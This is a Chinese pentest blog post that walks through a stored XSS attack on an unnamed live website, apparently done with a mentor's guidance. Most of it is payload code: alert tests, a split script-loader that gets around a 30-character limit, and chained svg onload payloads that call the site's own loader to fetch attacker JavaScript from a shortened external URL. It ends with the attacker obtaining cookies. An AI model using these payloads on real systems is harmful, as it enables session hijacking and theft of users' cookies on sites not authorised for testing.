 +++
date = "2016-07-17T23:30:54+08:00"
description = ""
draft = false
tags = ["xss"]
title = "XSS实例"
topics = ["Pentest","XSS"]

+++

首先感谢凯神的指导。。。
### 0x00 注册账号
> 先得到一个临时邮箱，然后注册账号
{{% fluid_img src="/img/post/xss_example_get_temporary_email.png" alt="xss实例申请临时邮箱" %}}
<br /><br />
{{% fluid_img src="/img/post/xss_example_register.png" alt="xss实例注册账号" %}}

### 0x01 找输入输出点
> {{% fluid_img src="/img/post/xss_example_add_topic.png" alt="xss实例添加关注" %}}
<br /><br />
{{% fluid_img src="/img/post/xss_example_input_output_point.png" alt="xss实例输入输出点" %}}

### 0x02 尝试构造payload
> payload用如下的即可：
```
<script>alert(1)</script>
"><script>alert(1)</script><a
```
但是这个要在点击删除时payload才起作用
{{% fluid_img src="/img/post/xss_example_payload_test.png" alt="xss实例payload test" %}}
```
也可用<img src=1 onerror=alert(1) />自动加载，但也要点击删除按钮才能起作用  
但是我们若想充分利用则需要远程加载自己的js
```

### 0x03 加载自己的js
* 此时的限制条件为：

> ```
* 30个字符
* script标签不能自己触发
```

* 只能构造类似下面的语句自己加载脚本：

> ```
a=document.createElement('script');
a.src="www.xxx.com";
document.head.appendChild(a);
```

* 可以用如下方法分割，多次添加：

> ```
a=document.createE/*
*/lement('script');/*
*/a.src="www.xxx.com";/*
*/document.head.app/*
*/endChild(a);

但此处不可行，考虑直接用JQuery等的函数getScript(URL)直接加载url，然而此处依然不行
```

* 查找
{{% fluid_img src="/img/post/xss_example_find_loadjs.png" alt="xss实例发现网站自己的加载js的函数" %}}

* 构造payload
{{% fluid_img src="/img/post/xss_example_short_url.png" alt="xss实例使用js短网址" %}}

> ```
使用如下payload：
<svg/onload="b='http://t.i'">
<svg/onload="b+='m/16ap6'">
<svg/onload="$loadJs(b)">
```

### 0x04 得到Cookie
> {{% fluid_img src="/img/post/xss_example_get_cookie.png" alt="xss实例得到Cookie" %}}